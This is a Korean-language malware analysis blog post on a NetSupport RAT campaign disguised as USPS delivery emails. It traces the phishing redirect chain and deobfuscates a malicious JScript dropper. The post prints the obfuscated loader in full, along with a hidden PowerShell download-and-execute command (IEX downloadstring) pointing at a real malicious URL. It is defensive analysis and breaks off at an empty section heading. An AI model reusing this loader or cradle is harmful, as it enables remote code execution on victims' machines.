




+++
title = "USPS 위장 NETSUPPORT RAT 악성코드.pdf"
date = "2025-01-29T16:39:52+09:00"
author = "sayoon"
tags = ["악성코드분석"]
keywords = ["메일 위장", "악성코드"]
description = "USPS 패키지 배송 관련 메일로 위장한 악성코드"
showFullContent = false
readingTime = false
hideComments = false
+++

> **3줄 요약**
>
> 1. 실행 시 `winlogdate.exe` 파일 드롭
> 2. 레지스트리 수정으로 로그인 마다 실행
> 3. 통신 및 원격 접속으로 개인정보 탈취

### 분석 파일

- 파일: [link](https://www.malware-traffic-analysis.net/2022/12/28/index.html)

**_발퀄 및 건너짚기가 남발하는 문서임니당_**

<br>

## 1. 배포 경로



이 악성코드의 시작점은 이메일이다.  
아래 그림과 같이 운송업체 USPS를 위장한 메일을 보내 사용자가 외부 링크로 접속하도록 유도한다.

<br/>

## 2. 패킷 분석

사용자가 <kbd>Download Details</kbd>를 클릭하면 **lbbyqluzu.cracknight.ru**로 연결된다.  
이후 `302` 상태 코드를 받고 **patrickforeilly.com**으로 리다이렉트 된다



위 사진을 보면 **patrickforeilly.com**에서 `application/zip` 타입의 콘텐츠를 요청하고 있다.  
해당 파일을 확인한 결과, 아래와 같이 `javascript`파일을 담고 있는 것을 확인 할 수 있다




<br/>

## 3. 파일 분석

### 1) `4043_PCM.js` 파일

`4043_PCM.js` 파일은 난독화 된 `js`파일로, `eval` 명령어를 확인할 수 있었다.
이를 치환하면 아래와 같은 파일을 얻을 수 있었다.

```none
//UmExrsgJuDvLhVadkAWOTICPXF oMKilXfTnLOHCUhAFBP = "sheLl"; YZqOsTxnMmpABJCF = new
ActiveXObject(oMKilXfTnLOHCUhAFBP+"."+ //IxqOgMKi "ApPlIcAtIon"); FkLgcBCiVTGsmxdvpeb = new
ActiveXObject("SCRiPtIng.filesystemobJECt"); if (FkLgcBCiVTGsmxdvpeb.FolderExists("C:\\pROgRa"+ //IxqOgMKi
"mdAta\\mIcRosOft\\wINdoWs")) { //YhALZvBkfyGVcEPoHRNqIM YZqOsTxnMmpABJCF.ShellExecute("cmd", "/c"+ //IxqOgMKi "
Power"+oMKilXfTnLOHCUhAFBP+" -nop -w hidden "+ //IxqOgMKi "-ep bypaSS -enC SQ"+ //IxqOgMKi "BFAFgAIAAoA"+
//IxqOgMKi "E4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAb"+ //IxqOgMKi
"gB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHI"+ //IxqOgMKi "AaQBuAGcAKA"+ //IxqOgMKi "AiAGgAdAB0AHAA"+ //IxqOgMKi
"OgAvAC8"+ //IxqOgMKi "AMQBvAHQ"+ //IxqOgMKi "AYQBsAC4AYwBvAG0ALwBpAG4AZABlAHgALwBpAG4AZA"+ //IxqOgMKi
"BlAHgALgBwAGgAcAAiACkA", "", "open", 0); } //kdbyVceRuXIHitqmTjngWxOZAG
```

위 코드를 보기 쉽게 풀면,

```js
UmExrsgJuDvLhVadkAWOTICPXF oMKilXfTnLOHCUhAFBP = "shell";
YZqOsTxnMmpABJCF = new ActiveXObject(“shell” + ".Application");
FkLgcBCiVTGsmxdvpeb = new ActiveXObject("scripting.filesystemobject");
if (FkLgcBCiVTGsmxdvpeb.FolderExists("C:\\pROgRa" + "mdAta\\mIcRosOft\\wINdoWs")) {
	YZqOsTxnMmpABJCF.ShellExecute("cmd", "/c Power" + sheLl + " -nop -w hidden -epbypass -enC SQ...", "", "open", 0);
}
```

난독화된 변수명을 다시 바꿔주면,

```javascript
if (
  ActiveXObject("scripting.filesystemobject").FolderExists(
    "C:ProgramData\\MicrosoftWindows"
  )
) {
  ActiveXObject("scripting.filesystemobject").ShellExecute(
    "cmd",
    "/c Powershell -nop -w hidden -ep bypass -enC ...",
    "open",
    0
  );
}
```

이는 `C:\ProgramData\\Microsoft\Windows` 경로가 존재한다면, `Powershell `을 실행하는 명령어이다.

- `-w hidden` 옵션으로 `Powershell` 이 백그라운드에서 실행되도록 하고,
- `-enC` 옵션으로 `base64` 로 인코딩 된 명령어를 실행하므로

마지막 인자를 확인하면 어떤 `Powershell` 명령을 실행하는지 알 수 있다.

마지막 인자는 아래와 같고

```none
SQ"+ //IxqOgMKi "BFAFgAIAAoA"+ //IxqOgMKi "E4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAb"+
//IxqOgMKi "gB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHI"+ //IxqOgMKi "AaQBuAGcAKA"+ //IxqOgMKi "AiAGgAdAB0AHAA"+
//IxqOgMKi "OgAvAC8"+ //IxqOgMKi "AMQBvAHQ"+ //IxqOgMKi "AYQBsAC4AYwBvAG0ALwBpAG4AZABlAHgALwBpAG4AZA"+ //IxqOgMKi
"BlAHgALgBwAGgAcAAiACkA
```

필요 없는 문자열 `//Ixq0gMKi`를 지우고 디코딩하면

```powershell
IEX(New-Object Net.Webclient).downloadstring("http://1otal.com/index/index.php")
```

라는 명령어가 나오는데, 이는 `http://1otal.com/index/index.php` 에서 스크립트를 다운 받아 실행하는 윈도우 powershell 명령어이다.

> 종합하자면, `4043_PCM.js` 파일은 난독화된 `javascript` 파일을 `eval`을 이용하여 실행하는데,  
> 특정 `url`에서 `php`를 다운받아 `powershell`로 실행하는 악성 스크립트이다.

<br/>

### 2) **index.php**
